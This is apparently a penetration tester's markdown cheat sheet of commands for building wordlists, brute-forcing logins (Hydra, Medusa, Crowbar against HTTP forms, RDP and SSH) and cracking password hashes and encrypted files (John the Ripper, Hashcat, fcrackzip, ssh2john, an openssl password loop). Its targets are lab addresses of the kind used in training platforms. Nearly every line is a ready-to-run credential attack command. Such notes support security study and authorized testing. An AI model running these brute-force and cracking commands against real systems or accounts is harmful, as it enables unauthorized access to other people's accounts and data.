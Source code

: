 ## Wordlists:
    kali: /usr/share/wordlists
    https://github.com/danielmiessler/SecLists
    Custom Wordlists:
        Website Scraping Example:
          cewl www.megacorpone.com -m 6 -w megacorp-cewl.txt
          edit /etc/john/john.conf, adding rule that mutates our wordlist by adding 2 numbers at the end of each word:   $[0-9]$[0-9]
          john --wordlist=megacorp-cewl.txt --rules --stdout > mutated.txt
        Pattern Example:
          crunch 8 8 -t ,@@^^%%%
          only certain characters:  crunch 4 6 0123456789ABCDEF -o crunch.txt

## Login Brute-Forcing:
        HTTP htaccess attack with Medusa:
            medusa -h 10.11.0.22 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin
        RDP attack with Crowbar:
            crowbar -b rdp -s 10.11.0.22/32 -u admin -C ~/password-file.txt -n 1
        SSH attack with THC-Hydra:
             hydra -l kali -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1
             With a list:   hydra -L userlist.txt -P passwordlist.txt ssh://10.10.10.184
        HTTP POST attack with THC-Hydra:
            hydra 10.11.0.22 http-form-post "/form/frontpage.php:user=admin&pass=^PASS^:INVALID LOGIN" -l admin -P /usr/share/wordlists/rockyou.txt -f
            hydra 10.10.10.43 https-form-post "/db/index.php:remember=yes&login=Log+In&proc_login=true&password=^PASS^:Incorrect password" -s 443 -P /usr/share/wordlists/rockyou.txt -f
            no username: -l ''
            hydra 10.10.10.184 -l admin -P /usr/share/wordlists/rockyou.txt http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid Password\!" -f
            hydra 10.10.10.184 -l admin -P /usr/share/wordlists/rockyou.txt https-post-form "/index.php:__csrf_magic=sid%3Ad38e7d40800f071201501427269c237c40fa4482%2C1614984752&usernamefld=^USER^&passwordfld=^PASS^&login=Login:Username or Password incorrect" -f
            List:  hydra 10.10.10.191 -l fergus -P passwordlist.txt http-post-form "/admin/login:username=^USER^&password=^PASS^&save=:Username or password incorrect" -f
            CSRF token means probably won't work
        HTTP Authentication:
            hydra 10.10.10.10 -l username -P /usr/share/wordlists/rockyou.txt http-get -s 34226
            
## Password Cracking:
  hash-identifier
  $5$ sha256, 
  gunzip /usr/share/wordlists/rockyou.txt
  Online:  https://crackstation.net/
  John the Ripper:
            john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=NT
            With rules:   john --rules --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=NT
            Linux:
  Hashcat (GPU-based):
      Modes: 3200 bcrypt, 7400 sha256,
      hashcat -m 1000 -a 0 --force --show --username hash.txt wordlist1.lst
      hashcat -a 0 -m 13100 hash /usr/share/wordlists/rockyou.txt
      .\hashcat.exe -m 3200 -a 3 hashes.txt 'SKY-TEST-?d?d?d?d' --- known format, brute force mode
      Rule Example:
          password is some variation of PleaseSubscribe!
          echo -n "PleaseSubscribe\!" > rulefile.txt
          hashcat -a 0 -m 3200 -r /usr/share/hashcat/rules/best64.rule /root/hash.txt rulefile.txt
      BEST RULE FILE: /usr/share/hashcat/rules/OneRuleToRuleThemAll.rule
	      hashcat64.exe --force -m300 --status -w3 -o found.txt --remove --potfile-disable -r rules\OneRuleToRuleThemAll.rule hash.txt rockyou.txt
  Other File Formats:
    Zip: fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt backup
      Or: zip2john ...
    SSH Key: /usr/share/john/ssh2john.py id_rsa > id_rsa.john ;  john id_rsa.john --wordlist=/usr/share/wordlists/rockyou.txt
		  make copy without pw:  openssl rsa -in id_rsa -out id_rsa_nopass
    keepass2john (.kdbx file)
    rar2john
    tar.gz.enc file: netpgp --decrypt devel_backup-2020-09-16.tar.gz.enc --output=/tmp/out.tar.gz ;  tar -xf out.tar.gz
    Openssl base64 encoded file:  cat /usr/share/wordlists/rockyou.txt | while read pass; do openssl enc -d -a -AES-256-CBC -in .drupal.txt.enc -k $pass > devnull 2>&1; if [[ $? -eq 0 ]]; then echo "Password: $pass"; exit; fi; done;

